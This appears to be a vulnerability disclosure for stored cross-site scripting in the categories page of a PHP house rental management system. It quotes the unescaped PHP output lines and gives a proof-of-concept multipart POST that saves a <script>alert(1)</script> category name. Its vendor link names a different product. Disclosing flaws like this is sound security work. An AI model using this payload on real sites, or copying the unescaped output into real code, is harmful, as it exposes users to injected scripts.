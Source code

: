 #### BUG_AUTHOR：tangling

# House Rental Management system - Storage XSS on (rental/manage_categories.php)

### Vendor Homepage:

https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

### Version:V1.0

#### Tested on: PHP, Apache, MySQL

Affected Page:http://localhost/index.php?page=categories

#### Source code(rental/manage_categories.php【39】）

```
27        <tbody>
28         <?php 
29         $i = 1;
30         $category = $conn->query("SELECT * FROM categories order by id asc");
31         while($row=$category->fetch_assoc()):
32         ?>
33         <tr>
34          <td class="text-center"><?php echo $i++ ?></td>
35          <td class="">
36           <p><?php echo $row['name'] ?></p>
37          </td>
38          <td class="text-center">
39           <button class="btn btn-sm btn-primary edit_category" type="button" data-id="<?php echo $row['id'] ?>"  data-name="<?php echo $row['name'] ?>" >Edit</button>
40           <button class="btn btn-sm btn-danger delete_category" type="button" data-id="<?php echo $row['id'] ?>">Delete</button>
41          </td>
42         </tr>
43         <?php endwhile; ?>
44        </tbody>
45       </table>
46      </div>
47     </div>
48    </div>
49    <!-- Table Panel -->
50   </div>
51  </div>
```



#### POC:

```
POST /ajax.php?action=save_category HTTP/1.1
Host: localhost
accept: */*
accept-language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
cache-control: no-cache
content-type: multipart/form-data; boundary=----WebKitFormBoundaryuRsUvl5QwYB9x9tV
pragma: no-cache
sec-ch-ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
x-requested-with: XMLHttpRequest
referer: http://localhost/index.php?page=categories
referrer-policy: strict-origin-when-cross-origin
Content-Length: 238

------WebKitFormBoundaryuRsUvl5QwYB9x9tV
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryuRsUvl5QwYB9x9tV
Content-Disposition: form-data; name="name"

<script>alert(1)</script>

------WebKitFormBoundaryuRsUvl5QwYB9x9tV--


```
succeed:
![Image](https://github.com/tang-0717/VUL/blob/main/image/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20241121214348.png)
![Image](https://github.com/tang-0717/VUL/blob/main/image/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20241121214341.png)



